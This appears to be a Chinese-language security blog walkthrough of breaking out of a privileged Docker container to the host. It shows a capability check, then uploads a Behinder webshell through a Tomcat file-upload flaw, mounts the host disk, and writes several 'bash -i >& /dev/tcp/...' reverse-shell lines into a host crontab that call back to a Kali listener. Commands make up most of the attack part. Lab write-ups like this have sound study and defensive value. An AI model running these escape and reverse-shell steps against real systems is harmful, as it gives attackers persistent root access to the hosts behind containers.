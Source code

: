 怎样才是特权模式启动的？

如果容器使用docker run
--privileged启动时候，就会允许容器内的root拥有外部root机的权限，Docker容器就被允许访问主机上的所有设备，因而可以执行mount命令进行挂载。

###  ** **a.检测****

执行以下命令，如果返回 Is privileged mode 则说明当前是特权模式

cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged
mode" || echo "Not privileged mode"

如果返回 Not privileged mode 则说明当前不是特权模式

![]()

还有关于K8S的判断：

在pod的yaml配置中添加如下配置时，也会以特权模式启动容器：

securityContext:  
  privileged: true  

###  ** **b.漏洞复现****

下面用我的ubuntu为例：

![]()

启了一个tomcat任意文件上传环境，然后传个冰蝎：

![]()然后冰蝎连上去,确实是docker环境:![]()查看磁盘文件fdisk
-l：![]()可以检测一下，确实是特权模式：![]()那么可以直接将宿主机的/dev/sda1目录挂载到容器内的目录中。  

先创建test目录，然后mount直接挂载：![]()可以看到已经获取到宿主机的目录，接下来可以直接写定时任务反弹shell脚本：

touch /test/tmp/test.sh  
chmod +x /test/tmp/test.sh  
echo "#!/bin/bash" >> /test/tmp/test.sh  
echo "/bin/bash -i >& bash -i >& /dev/tcp/192.168.43.133/8888 0>&1"  >>
/test/tmp/test.sh  
或者  
echo "bash -i >& /dev/tcp/192.168.43.133/8888 0>&1"  >> /test/tmp/test.sh  
或者  
sed -i '$a\/bin/bash -i  >&  bash -i >& /dev/tcp/192.168.32.128/13122 0>&1'
/test/tmp/test.sh  
sed -i '$a\/bin/bash -i  >&  bash -i >& /dev/tcp/192.168.227.46/13122 0>&1'
/test/tmp/test.sh  
cat /test/tmp/test.sh  
写入定时任务:  
sed -i '$a*/2 *    * * *    root  bash /tmp/test.sh ' /test/etc/crontab  
cat /test/etc/crontab  

然后测试发现冰蝎的命令行有些小问题，弹个shell到kali上继续操作：

![]()写好计划任务后，kali监听：![]()已经逃逸出来了。 ** **  
****

